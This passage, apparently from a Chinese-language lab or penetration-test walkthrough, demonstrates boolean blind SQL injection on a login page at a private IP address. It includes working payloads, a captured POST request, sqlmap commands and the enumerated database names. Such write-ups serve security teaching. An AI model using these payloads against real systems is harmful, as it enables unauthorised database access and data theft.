 ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2ye6IvbcafCEu5WM3nHsuYa6L3xtsjh7vPSkJBpunL3S3ibSEjw2ibsU9Nw/640?wx_fmt=png)

页面没有跳转，只有 0 和 1 的显示，属于布尔型的注入

**确认数据库名长度**

确认数据库名长度为 5

1' or 1=1 and length(database())=5#  // 回显 1

1' or 1=1 and length(database())>5# // 回显 0

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeLqtJHHibodtFozXy7yG3n5QqtGHibbvrQ8ZsYia8fandyvnOruhm5CXWg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeFUic3jXuonodlB3T2tUevMOWMI6YEcBz6SlWdudzy0FzibJ7zZxMibGhA/640?wx_fmt=png)

**sqlmap**

布尔盲注有些繁琐，还是用 sqlmap 跑下吧

先拿到 POST 请求包，在 user=1 后加个 \* 指定下注入点，将请求包保存到 sqltest.txt 中

```
POST /login.php HTTP/1.1
Host: 192.168.50.78
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.50.78/login.php
Cookie: PHPSESSID=qj4c92fpeec7236d5iio3eceb3; Cart66DBSID=O2RHWHKR2J77SNGIKR89DWXKCOAXPLIL3DQRF2VD
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
user=1\*&password=1&s=Submi
```

使用 sqlmap 进行测试

sqlmap -r sqltest.txt --batch

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeMYiblDsuuoD3aDb6StXa9dLicYZiaosjQxAbbLn2cRZiaFibVxrmtBdiaIpw/640?wx_fmt=png)

结果跑出来的是个时间盲注。。。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yevepkra7fia0icyQua3WQ3C3cLQEDm5arctpkic0rOiaTArwbfgGeH1ExXg/640?wx_fmt=png)

sqlmap -r sqltest.txt --dbs --batch

**跑库名**

```
\[\*\] information\_schema
\[\*\] login
\[\*\] mysql
\[\*\] performance\_schema
\[\*\] phpmyadmin
\[\*\] users
\[\*\] wordpress8080
```
